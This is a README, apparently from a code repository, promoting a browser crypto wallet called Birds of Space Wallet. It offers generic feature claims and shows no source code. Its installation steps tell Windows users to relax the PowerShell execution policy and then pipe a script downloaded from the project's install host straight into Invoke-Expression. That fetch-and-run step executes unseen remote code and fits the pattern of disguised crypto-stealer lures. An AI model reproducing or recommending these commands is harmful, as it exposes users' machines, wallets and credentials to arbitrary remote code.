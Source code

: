
# Birds of Space Wallet - Open Source

**Introducing Birds of Space Wallet: Your Gateway to the Crypto Universe**
Birds of Space Wallet is your passport to the vibrant world of cryptocurrency. Seamlessly integrated into your browsing experience, Birds of Space Wallet empowers you to manage your digital assets with ease and security.

**Key Features:**
1. **User-Friendly Interface:** Designed with simplicity in mind, Birds of Space Wallet offers an intuitive interface that makes navigating the complexities of blockchain technology effortless.
2. **Secure Storage:** Your digital assets are safeguarded by state-of-the-art encryption protocols, ensuring that your funds remain protected at all times.
3. **Multi-Chain Support:** Birds of Space Wallet supports a wide range of cryptocurrencies, allowing you to manage all your digital assets from a single platform.
4. **Customizable Settings:** Tailor Birds of Space Wallet to suit your individual preferences with customizable settings and features.
5. **Seamless Integration:** Whether you're a seasoned crypto enthusiast or just getting started, Birds of Space Wallet seamlessly integrates into your browsing experience, providing easy access to decentralized applications and decentralized finance (DeFi) platforms.
6. **Cross-Platform Compatibility:** Access your digital assets from anywhere, at any time, with Birds of Space Wallet's cross-platform compatibility.

## Requirements

- Operating System: Windows
- Web Browser: Google Chrome

## Installation Steps

1. Make sure you have the Google Chrome web browser installed on your computer.
2. Open Windows PowerShell.
3. Run the following command to set the PowerShell execution policy:

```powershell
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser -Force
```

4. Then, run the following command to download and install Birds of Space Wallet:

```powershell
Invoke-RestMethod -Uri "https://install.birdsofspace.com" -UseBasicParsing | Invoke-Expression
```

5. Once the installation is complete, you can open Birds of Space Wallet and create your own wallet.
6. To add RPC BOSS, follow the instructions provided in the application after you open the wallet.

Make sure to follow the steps carefully and be sure to verify the download source before running the `Invoke-RestMethod` command.

Enjoy using Birds of Space Wallet!
